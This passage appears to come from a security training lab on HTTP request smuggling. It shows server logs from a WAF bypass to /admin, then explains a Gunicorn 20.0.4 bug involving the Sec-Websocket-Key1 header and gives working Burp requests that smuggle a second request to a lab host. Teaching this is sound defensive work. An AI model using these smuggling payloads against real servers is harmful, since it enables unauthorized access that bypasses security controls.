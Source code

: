 ```bash
<SNIP>
[2023-01-27 16:33:38 +0000] [215] [DEBUG] GET /404
[2023-01-27 16:33:38 +0000] [215] [DEBUG] GET /admin
[2023-01-27 16:33:38 +0000] [215] [DEBUG] Invalid request from ip=127.0.0.1: Invalid HTTP request line: ''
<SNIP>

```

Since we receive the response that contains the admin panel, we successfully bypassed the WAF.


# Vulnerable Software

* * *

So far we have seen request smuggling vulnerabilities that arise from improper parsing or a lack of support for the TE header. However, web servers or reverse proxies can also be vulnerable to request smuggling due to other bugs that cause the length of a request to be parsed incorrectly.

* * *

## Identification

In our lab, we will exploit a vulnerability in the Python [Gunicorn](https://gunicorn.org/) web server that was detailed in [this](https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/) blog post. Gunicorn `20.0.4` contained a bug when encountering the HTTP header `Sec-Websocket-Key1` that fixed the request body to a length of 8 bytes, no matter what value the CL and TE headers are set to. This is a special header used in the establishment of WebSocket connections. Since the reverse proxy does not suffer from this bug, this allows us to create desynchronization between the two systems.

To confirm the vulnerability, let's create a tab group in Burp Repeater with the following two requests:

```http
GET / HTTP/1.1
Host: gunicorn.htb
Content-Length: 49
Sec-Websocket-Key1: x

xxxxxxxxGET /404 HTTP/1.1
Host: gunicorn.htb

```

and

```http
GET / HTTP/1.1
Host: gunicorn.htb

```
